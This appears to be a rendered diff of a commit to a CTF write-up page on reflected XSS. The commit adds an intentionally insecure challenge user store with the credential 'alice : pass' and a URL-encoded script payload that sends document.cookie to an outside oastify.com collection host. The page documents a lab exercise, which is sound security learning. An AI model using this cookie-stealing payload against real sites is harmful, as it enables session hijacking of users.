

Before and after one commit to Frankishtien/Challenges-writeups-CTFS, a Markdown page: AppSecMaster/XSS/Reflected XSS.md, the part around the change. Rendered like a GitHub page; folded sections open; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/AppSecMaster/XSS/Reflected XSS.md
+++ b/AppSecMaster/XSS/Reflected XSS.md
@@ -225,6 +225,21 @@ app.listen(80, () => {
 ---
 
 
+```javascript
+// Insecure in-memory users database, only for XSS challenge purposes
+const users = {
+    alice: { username: 'alice', password: 'pass', bio: 'Hi, I am Alice!' },
+    bob: { username: 'bob', password: process.env.BOB_PASS, bio: 'Hello from Bob!' }
+};
+```
+
+
+```ruby
+alice : pass
+```
+
+----
+
 
 ```javascript
 let html = `<h2>Search Results for "${query}"</h2>`;
@@ -236,3 +251,15 @@ let html = `<h2>Search Results for "${query}"</h2>`;
 
 
 ---
+
+<img width="1847" height="707" alt="image" src="https://github.com/user-attachments/assets/f8970475-718a-4757-be18-ef4c04be9e39" />
+
+
+
+```url
+http://localhost/search?query=%3Cscript%3Evar%20i%3Dnew%20Image%28%29%3Bi.src%3D%22http%3A%2F%2Fj3nztlrfmpkyc2gtlbapa5dho8uzip6e.oastify.com%2F%3F%22%2Bdocument.cookie%3B%3C%2Fscript%3E
+```
+
+
+
+<img width="1170" height="618" alt="image" src="https://github.com/user-attachments/assets/70da2ba1-0c55-4242-85b5-f48221aecd45" />
````
